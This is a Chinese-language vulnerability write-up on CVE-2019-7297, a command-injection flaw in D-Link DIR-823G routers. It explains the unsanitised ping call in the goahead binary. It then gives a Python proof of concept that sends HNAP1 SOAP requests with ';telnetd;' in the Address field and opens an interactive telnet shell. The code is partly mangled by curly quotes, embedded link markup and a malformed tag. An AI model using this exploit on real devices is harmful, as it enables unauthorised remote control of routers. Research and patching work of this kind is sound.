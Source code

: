 ```yaml
---
title: "（CVE-2019-7297）D-Link DIR-823G 命令注入漏洞"
id: zhfly3382
---
```


# （CVE-2019-7297）D-Link DIR-823G 命令注入漏洞

## 一、漏洞简介

D-Link DIR 823G 1.02B03及之前的版本中存在命令注入漏洞，攻击者可通过发送带有shell元字符的特制/HNAP1请求利用该漏洞执行任意的操作系统命令。GetNetworkTomographyResult函数中调用system函数，执行的内容中包括不受信任的用户输入Address字段，攻击者可以远程执行任意命令。

## 二、漏洞影响

D-Link DIR 823G 1.02B03及之前的版本

## 三、复现过程

### 漏洞分析

漏洞原理中提到的GetNetworkTomographyResult函数是在goahead二进制文件中实现的。在function_list中找到对应的函数地址。

GetNetworkTomographyResult获取address，number，size参数，作为ping的参数。

![image](../img/6b1a5ebfd9ed8143ff5353b86dcdd079.png)

```
ping address -c number -w number -s size > /tmp/ping.txt 2>>/tmp/ping.txt 
```

但在system之前并没有对这些外来参数进行检查，如果address为`;telnetd;`就能启动Telnet服务。可以看出这些参数都是通过apmib_get获取的，那么在之前一定有apmib_set进行设置，在IDA中查找关键字0x1b72，0x1b73，0x1b73，定位到apmib_set的位置，结合ghidra的反汇编代码，确定在`SetNetworkTomographySettings`函数中可以对这些参数进行设置。

![image](../img/bbd00b5d5875de0d5d0869f4e5d077ba.png)

### poc

```
import requests
from pwn import *

IP=‘192.168.0.1’

headers = requests.utils.default_headers()

headers[“User-Agent”] = “Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36”

headers[“SOAPAction”] = ‘“[http://purenetworks.com/HNAP1/SetNetworkTomographySettings](http://purenetworks.com/HNAP1/SetNetworkTomographySettings)”’

headers[“Content-Type”] = “text/xml; charset=UTF-8”

headers[“Accept”]="*/*"

headers[“Accept-Encoding”]=“gzip, deflate”

headers[“Accept-Language”]=“zh-CN,zh;q=0.9,en;q=0.8”

payload = ‘<?xml version=“1.0” encoding=“utf-8”?><soap:Envelope xmlns:xsi=“[http://www.w3.org/2001/XMLSchema-instance](http://www.w3.org/2001/XMLSchema-instance)” xmlns:xsd=“[http://www.w3.org/2001/XMLSchema](http://www.w3.org/2001/XMLSchema)” xmlns:soap=“[http://schemas.xmlsoap.org/soap/envelope/](http://schemas.xmlsoap.org/soap/envelope/)”>

<soap:Body>

<SetNetworkTomographySettings xmlns=“[http://purenetworks.com/HNAP1/](http://purenetworks.com/HNAP1/)”>

<Address>;telnetd;</Address>

<Number>4<Number>

<Size>4</Size>

</SetNetworkTomographySettings></soap:Body></soap:Envelope>’

r = requests.post(‘http://’+IP+’/HNAP1/’, headers=headers, data=payload)

print r.text

headers[“SOAPAction”] = ‘“[http://purenetworks.com/HNAP1/GetNetworkTomographyResult](http://purenetworks.com/HNAP1/GetNetworkTomographyResult)”’

payload = ‘<?xml version=“1.0” encoding=“utf-8”?><soap:Envelope xmlns:xsi=“[http://www.w3.org/2001/XMLSchema-instance](http://www.w3.org/2001/XMLSchema-instance)” xmlns:xsd=“[http://www.w3.org/2001/XMLSchema](http://www.w3.org/2001/XMLSchema)” xmlns:soap=“[http://schemas.xmlsoap.org/soap/envelope/](http://schemas.xmlsoap.org/soap/envelope/)”>

<soap:Body>

<GetNetworkTomographyResult xmlns=“[http://purenetworks.com/HNAP1/](http://purenetworks.com/HNAP1/)”>

</GetNetworkTomographyResult></soap:Body></soap:Envelope>’

r = requests.post(‘http://’+IP+’/HNAP1/’, headers=headers, data=payload)

print r.text `p=remote(IP,23)

p.interactive()` 
```